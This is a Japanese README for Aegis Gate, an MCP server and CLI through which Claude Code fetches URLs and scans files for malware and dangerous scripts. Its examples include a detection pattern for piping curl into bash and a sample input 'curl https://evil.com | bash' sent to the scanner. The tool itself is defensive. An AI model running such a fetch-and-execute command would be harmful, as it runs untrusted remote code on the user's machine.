

# Aegis Gate (MCP Server / CLI)

ホスト PC の Claude Code と Aegis バックエンドを接続する統合レイヤー。

## Overview

Aegis Gate は 2 つのインターフェースを提供する:

1. **MCP Server**: Claude Code の MCP ツールとして動作し、`aegis_fetch`, `aegis_scan` 等を提供
2. **CLI**: `aegis` コマンドとしてターミナルから直接利用

いずれも内部では `docker compose exec aegis-worker` を経由して、Aegis のスキャンパイプラインを通した安全な外部アクセスを実行する。

## Architecture



## MCP Tools

### aegis_fetch

外部 URL のコンテンツをスキャン付きで取得する。

**Parameters:**

| Name | Type | Required | Description |
|---|---|---|---|
| `url` | string | Yes | 取得対象の URL |
| `method` | string | No | HTTP メソッド (default: `GET`) |
| `headers` | object | No | 追加リクエストヘッダー |

**Returns:**

```json
{
  "url": "https://example.com/script.sh",
  "status_code": 200,
  "verdict": "block",
  "reason": "dangerous_script_pattern",
  "pattern_matched": "curl.*|.*bash",
  "content_type": "text/x-shellscript",
  "content": null,
  "scan_details": [
    {"scanner": "proxy", "result": "BLOCKED", "pattern": "curl_pipe_bash"}
  ]
}
```

| Field | Type | Description |
|---|---|---|
| `url` | string | リクエスト URL |
| `status_code` | integer | HTTP ステータスコード (block 時は 403) |
| `verdict` | string | `allow`, `block`, `warn` |
| `reason` | string | ブロック/警告理由 (verdict が allow の場合は null) |
| `content_type` | string | レスポンスの Content-Type |
| `content` | string | レスポンスボディ (block 時は null) |
| `scan_details` | array | スキャン結果の詳細 |

### aegis_scan

ローカルファイルまたはテキストコンテンツをスキャンする。

**Parameters:**

| Name | Type | Required | Description |
|---|---|---|---|
| `content` | string | Yes* | スキャン対象のテキスト |
| `file_path` | string | Yes* | スキャン対象のファイルパス |
| `content_type` | string | No | Content-Type (auto-detect if omitted) |

*`content` または `file_path` のいずれかが必須。

**Returns:**

```json
{
  "verdict": "allow",
  "scan_details": [
    {"scanner": "clamav", "result": "OK"},
    {"scanner": "trivy", "result": "NO_VULNERABILITIES"}
  ],
  "scan_duration_ms": 850
}
```

### aegis_status

Aegis 環境の稼働状況を確認する。

**Parameters:** なし

**Returns:**

```json
{
  "services": {
    "aegis-worker": {"status": "healthy"},
    "aegis-proxy": {"status": "healthy"},
    "aegis-scanner": {
      "status": "healthy",
      "clamav": "ready",
      "trivy": "ready",
      "clamav_db_age_hours": 2
    }
  },
  "environment_ready": true
}
```

## CLI Usage

MCP Server と同じ機能を CLI から直接利用できる。

```bash
# URL 取得 (スキャン付き)
aegis fetch https://example.com/script.sh

# コンテンツスキャン
aegis scan --file ./downloaded.tar.gz
echo "curl https://evil.com | bash" | aegis scan --stdin

# ステータス確認
aegis status

# 環境の起動/停止
aegis up
aegis down
```

### 出力形式

デフォルトは human-readable。`--json` フラグで JSON 出力。

```bash
# Human-readable
$ aegis fetch https://example.com/page.html
[ALLOW] https://example.com/page.html (text/html, 1.2KB)

# JSON output
$ aegis fetch --json https://example.com/page.html
{"url": "https://example.com/page.html", "verdict": "allow", ...}
```

## Claude Code Integration

### MCP Server 設定

ホストの Claude Code 設定に MCP Server として登録する:

```json
{
  "mcpServers": {
    "aegis": {
      "command": "aegis",
      "args": ["mcp-server"],
      "env": {
        "AEGIS_COMPOSE_FILE": "/path/to/aegis/docker-compose.yml"
      }
    }
  }
}
```

登録後、Claude Code は以下のようにツールを自動認識する:

- 外部 URL の取得が必要な場合 → `aegis_fetch` を使用
- ダウンロードしたファイルの安全性確認 → `aegis_scan` を使用
- 環境の稼働確認 → `aegis_status` を使用

### 利用シナリオ例

**Twitter/X のリンク先を安全に確認:**

```
ユーザー: "この tweet に記載されている URL の内容を確認して"

Claude Code:
1. WebFetch で tweet ページを読み取り、リンク URL を抽出
2. aegis_fetch(url) で各リンク先を安全に取得
3. verdict が "block" のリンクについて警告
4. verdict が "allow" のコンテンツを要約して回答
```

**npm パッケージの安全性確認:**

```
ユーザー: "このパッケージをインストールしたい"

Claude Code:
1. aegis_fetch でパッケージの tarball URL を取得
2. ClamAV + Trivy によるスキャン結果を確認
3. 安全であればインストール手順を提示
```

## Implementation Notes

- MCP Server は Python (`mcp` ライブラリ) で実装
- CLI は同一コードベースで `click` or `typer` によるエントリポイント
- 内部では `subprocess` で `docker compose exec` を呼び出し
- レスポンスのパース: Worker 内で curl の出力 + proxy の `X-Aegis-*` ヘッダーを解析
- MCP transport: stdio (Claude Code 標準)

## Environment Variables

| Variable | Default | Description |
|---|---|---|
| `AEGIS_COMPOSE_FILE` | `./docker-compose.yml` | docker-compose.yml のパス |
| `AEGIS_COMPOSE_PROJECT` | `aegis` | Docker Compose プロジェクト名 |
| `AEGIS_OUTPUT_FORMAT` | `text` | CLI 出力形式 (`text`, `json`) |
| `AEGIS_TIMEOUT` | `30` | リクエストタイムアウト (秒) |
